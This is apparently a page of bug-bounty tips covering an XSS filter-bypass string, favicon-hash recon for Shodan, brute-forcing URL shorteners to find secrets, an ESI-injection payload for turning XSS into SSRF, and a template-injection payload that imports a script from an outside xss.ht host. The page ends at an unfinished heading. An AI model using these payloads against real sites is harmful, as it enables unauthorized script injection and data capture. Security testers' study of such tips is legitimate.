 `<script>alert(0)</script>` <span style="color:red">doesn't pass</span>

`<scr\uffffipt>alert(0)</script>` <span style="color:green">passes</span>

Credit: @holme_sec

## Favicon has recon:

Did you know you can use favicon hashes to discover assets and fingerprint technologies on websites like <span style="color:red">Shodan</span> and <span style="color:red">Binaryedge</span>?

```
> curl -s -L -k https://gitlab.com/favicon.ico | 
python3 -c 'import mmh3,sys,codecs;
print(mmh3.hash(codecs.encode(sys.stdin.buffer.read(),"base64")))'
1278323681
shodan : http.favicon.hash: 1278323681
```

Credit: @kalimer0x00

## Predict URL shortners:

<http://urlte.am> bruteforces url shorteners, and makes it easier to do recon and find secrets by bruteforcing the most common URL shortners.

<span style="color:red">
TIP: use their calculator to convert numeric ID's to alphanumeric codes!<br>
e.g. 13371337 = U6uJ
</span>

Credit: gmbtbpvvshezrobb

## From XSS to SSRF:

Got XSS on a site that uses caching? Try upgrading that to SSRF through Edge Side Include Injection with this payload:

`<esi:include src="http://yoursite.com/capture" />`

Use it to bypass cookie restrictions, XSS filters & more!

Credit: @georgeomnet

## Blind XSS in JS frameworks:

Testing applications using <span style="color:red">Angular</span> or <span style="color:red">Vue.js</span>? Don't forget to wrap your build XSS payloads in a template injection payload, e.g.:

`{{constructor.constructor('import("https://jr0ch17.xss.ht")')()}}`

Not a lot of people test this!

Credit: @JR0ch17

## Get source code of Electron apps:
